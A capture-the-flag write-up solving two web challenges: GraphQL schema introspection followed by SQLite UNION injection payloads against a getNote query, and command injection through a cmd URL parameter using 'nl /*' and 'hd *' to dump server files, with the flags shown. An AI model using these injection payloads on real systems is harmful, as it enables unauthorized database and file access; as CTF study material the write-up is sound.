




# Table of contents
- ## [graphed 2.0](#graphed-20)
- ## [hackme](#hackme)
  
---


# Notes

### I'm using Ubuntu 20.04 as my environment.

---

# graphed 2.0


## *At the time of writing this, the website is down*

## Information
1. It's a website with graphql as backend

## My solution
1. Query this to get lots of information
```
http://45.134.3.200:8080//graphql?query={
    __schema{
        types{
            name,
            description,
            enumValues{
                name,
                description
             },
            fields{
                name,
                args{
                    name,
                    description,
                    type{
                        name,
                        kind,
                        ofType{
                            name,
                            kind
                         }
                      },
                   defaultValue
                   },
                description,
                type{
                    name,
                    kind,
                    ofType{
                        name,
                        kind
                        }
                     }
                }
            }
         }
       }
```
2. from all the returned queries and mutations, there will be a query named ```getNote('string')```, we can do sqlite injection into the query

3. getting all the tables
```
query={
    getNote(q:"1' union select type,name,tbl_name,NULL from sqlite_master--")
    {body,title}
    }
```



4. The flag is in the table named العلم *(Google translate: "Science?")*

```
query={
    getNote(q:"1' union select id,flag,NULL,NULL from العلم--")
    {body,title}
    }
```

## Flag : flag{h0p3_u_can't_r3@d_1t9176}

---

# hackme



## Information
1. use arg cmd for running a command and arg ?reset for clearing the env

## My solution
1. before this challenge i wasn't aware of the command ```nl```, i found it by trying all the two words command i can find on my machine.
2. the solution is quite simple, visit the url with argument ```?cmd=nl /*```

3. which will give out internal server error at first
4. next do ```?cmd=hd *```
```
.
.
.
0000c1b0  01 00 00 00 00 00 00 00  40 0e 00 00 00 00 00 00  |........@.......|
0000c1c0  c8 7d 85 ea 28 7f 00 00  c8 7d 85 ea 28 7f 00 00  |.}..(....}..(...|
0000c1d0  00 00 00 00 00 00 00 00  ad 4a 61 ea 28 7f 00 00  |.........Ja.(...|
0000c1e0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
0000c200  55 4b 61 ea 28 7f 00 00  14 4c 61 ea 28 7f 00 00  |UKa.(....La.(...|
0000c210  fe 4b 61 ea 28 7f 00 00  b0 a2 85 ea 28 7f 00 00  |.Ka.(.......(...|
0000c220  00 04 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
0000c230  00 00 00 00 00 00 00 00  03 00 00 00 00 00 00 00  |................|
0000c240  00 00 00 00 00 00 00 00  00 00 ff ff ff ff ff ff  |................|
0000c250  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
0000c2b0  66 6c 61 67 7b 6a 75 35  37 5f 67 30 74 74 40 5f  |flag{ju57_g0tt@_|
0000c2c0  35 70 6c 31 74 5f 45 6d  33 30 31 32 7d 0a 00 00  |5pl1t_Em3012}...|
0000c2d0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
0000c6b0  01 05 00 00 00 00 00 00  41 09 00 00 00 00 00 00  |........A.......|
0000c6c0  80 7d 85 ea 28 7f 00 00  80 7d 85 ea 28 7f 00 00  |.}..(....}..(...|
0000c6d0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
0000cff0  40 0e 00 00 00 00 00 00  01 00 00 00 00 00 00 00  |@...............|
0000d000  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
0002be50  00 00 00 00 00 00 00 00  ab 00 00 00 00 00 00 00  |................|
0002be60  28 19 f3 20 ff 7f 00 00  e9 1c 62 ea 28 7f 00 00  |(.. ......b.(...|
0002be70  00 00 00 00 00 00 00 00  a8 0e f3 20 ff 7f 00 00  |........... ....|
0002be80  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
0002bf20  00 00 00 00 00 00 00 00  ac 19 62 ea 28 7f 00 00  |..........b.(...|
0002bf30  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
0002bfb0  00 00 00 10 00 00 00 00  00 00 00 00 00 00 00 00  |................|
0002bfc0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
.
.
.
```

## Flag: flag{ju57_g0tt@_5pl1t_Em3012}
---